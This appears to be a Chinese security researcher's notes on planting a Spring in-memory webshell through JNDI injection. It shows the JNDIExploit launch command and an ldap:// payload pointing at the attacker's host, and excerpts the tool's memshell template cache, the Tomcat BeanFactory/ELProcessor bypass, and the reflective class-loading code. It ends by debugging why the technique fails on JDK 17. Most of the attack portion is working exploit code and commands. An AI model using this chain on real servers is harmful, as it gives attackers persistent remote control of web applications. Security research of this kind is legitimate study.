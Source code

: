 在存在jdni注入的情况下，注入一个Spring的内存马。
开启jdni注入工具：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar --ip 192.168.17.129 --httpPort 8081
```

请求中插入payload：
```
ldap://192.168.17.129:1389/TomcatBypass/SpringMemshell
```

jndi注入工具收到请求：
![image](https://user-images.githubusercontent.com/30398606/174015267-93d53012-99f1-4bbf-9785-e1779d549928.png)


相关注入代码：
com.feihong.ldap.gadgets.utils.Gadgets #createTemplatesImpl (PayloadType type, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String... param)
  
```java
  byte[] classBytes = null;
        switch (type){
            ...
            case springmemshell:
                classBytes = Cache.get("SpringMemshellTemplate");
                break;
            ...
         }
```

com.feihong.ldap.utils.Cache中注入：
```java
      static{
        try {
            //过期时间100年，永不过期的简单方法
            map.put("TomcatEchoTemplate", Util.getClassBytes(TomcatEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringEchoTemplate", Util.getClassBytes(SpringEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicEchoTemplate", Util.getClassBytes(WeblogicEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate1", Util.getClassBytes(TomcatMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate2", Util.getClassBytes(TomcatMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JettyMemshellTemplate", Util.getClassBytes(JettyMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate1", Util.getClassBytes(WeblogicMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate2", Util.getClassBytes(WeblogicMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JBossMemshellTemplate", Util.getClassBytes(JBossMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WebsphereMemshellTemplate", Util.getClassBytes(WebsphereMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringMemshellTemplate", Util.getClassBytes(SpringMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] get(String key){
        return map.get(key);
    }

    public static void set(String key, byte[] bytes){
        map.put(key, bytes);
    }
```

com.feihong.ldap.controllers.TomcatBypassController
```java
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
        System.out.println("[+] Sending LDAP ResourceRef result for " + base + " with javax.el.ELProcessor payload");

        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "java.lang.String"); //could be any
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));

        TomcatBypassHelper helper = new TomcatBypassHelper();
        String code = null;
        switch (type){
  
            case springmemshell:
                code = helper.injectSpringMemshell();
                break;
        ...
        }
```
  
com.feihong.ldap.controllers.TomcatBypassController$TomcatBypassHelper
```java

        public String injectSpringMemshell(){
            return injectMemshell(SpringMemshellTemplate.class);
        }
  
        public String injectMemshell(Class clazz){
            //使用类加载的方式最为方便，可维护性也大大增强

            String classCode = null;
            try{
                classCode = Util.getClassCode(clazz);
            }catch(Exception e){
                e.printStackTrace();
            }

            String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + classCode + "');\n" +
                    "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                    "try{\n" +
                    "   var clazz = classLoader.loadClass('" + clazz.getName() + "');\n" +
                    "   clazz.newInstance();\n" +
                    "}catch(err){\n" +
                    "   var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                    "   method.setAccessible(true);\n" +
                    "   var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                    "   clazz.newInstance();\n" +
                    "};";

            return code;
        }
```

com.feihong.ldap.utils.Util
```java
    public static String getClassCode(Class clazz) throws Exception {
        byte[] bytes = getClassBytes(clazz);
        String result = Util.base64Encode(bytes);

        return result;
    }
  
    public static byte[] getClassBytes(Class clazz) throws Exception {
        String className = clazz.getName();
        String resoucePath = className.replaceAll("\\.", "/") + ".class";
        InputStream in = Util.class.getProtectionDomain().getClassLoader().getResourceAsStream(resoucePath);
        byte[] bytes = new byte[1024];
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        int len = 0;
        while((len = in.read(bytes)) != -1){
            baous.write(bytes, 0 , len);
        }

        in.close();
        baous.close();

        return baous.toByteArray();
    }
```

Ref:
- https://github.com/shadowsock5/JNDIExploit/blob/a3addc8d5fb3281d9ea95f9fbcc85e14ebb8dd25/src/main/java/com/feihong/ldap/controllers/TomcatBypassController.java

  
```java
javax.script.ScriptEngineManager #getEngineByName("JavaScript")
```
在JDK-17.0.2，下执行失败，找不到这个Engine。

而在JDK-11下：
![image](https://user-images.githubusercontent.com/30398606/174246137-e5604d2f-5f75-4ea1-994e-29da96ca9113.png)
没有问题。
![image](https://user-images.githubusercontent.com/30398606/174246969-f0b2b684-22eb-4eef-831c-3707f8b37404.png)

  开始还以为是jdk-17对jndi的注入有什么限制，后来发现原来不是，依然可以绕过，只是获取不到`getEngineByName("JavaScript")`
原来是
> Java 15 removed [Nashorn JavaScript Engine](https://golb.hplar.ch/2020/04/java-javascript-engine.html)

推荐使用`GraalVM JavaScript engine`？但是需要添加依赖：
```xml
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js</artifactId>
  <version>22.0.0</version>
</dependency>  
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js-scriptengine</artifactId>
  <version>22.0.0</version>
</dependency>
```
然后使用方法：
```java
// Graal
ScriptEngine graalEngine = new ScriptEngineManager().getEngineByName("graal.js");
graalEngine.eval("print('Hello World!');");
```
查看哪些Engine可以用：
```java
new ScriptEngineManager().getEngineFactories();
```
JDK-17下，
  ![image](https://user-images.githubusercontent.com/30398606/174250896-348355dc-04cd-437c-909b-54748b182a76.png)

  
尝试使用这个：
  https://github.com/lz2y/yaml-payload-for-ruoyi/blob/main/src/main/java/artsploit/AwesomeScriptEngineFactory.java
  但是：
  ![image](https://user-images.githubusercontent.com/30398606/174265414-fdadcbae-6b3b-4e39-9f4c-bb6c62e95b17.png)
```
java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @2d127a61
```

> 403 强封装JDK的内部API
简而言之就是java内部的大部分类，除了关键的内部API，如sun.misc.Unsafe类，都进行强封装，默认情况下不允许开发人员利用反射等手段去访问内部非public的类、成员变量等，使java更加安全。
但是可以通过设置参数–add-export或–add-opens来指定哪些类可以被访问。
————————————————
版权声明：本文为CSDN博主「aitutou」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/aitutou/article/details/124248255
  尝试反射第三方的库的方法解决
Ref:
  - https://stackoverflow.com/questions/71481562/use-javascript-scripting-engine-in-java-17
  - https://github.com/keycloak/keycloak/issues/9945
